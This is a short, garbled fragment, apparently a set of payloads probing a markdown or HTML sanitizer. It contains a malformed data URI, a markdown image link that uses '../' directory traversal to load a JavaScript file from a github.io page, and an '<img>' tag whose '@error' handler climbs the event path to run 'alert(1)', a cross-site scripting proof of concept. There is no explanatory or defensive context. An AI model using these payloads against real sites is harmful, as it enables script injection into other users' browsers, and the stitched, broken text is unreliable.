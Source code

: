 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src @error=e=$event.composedPath().pop().alert(1)>
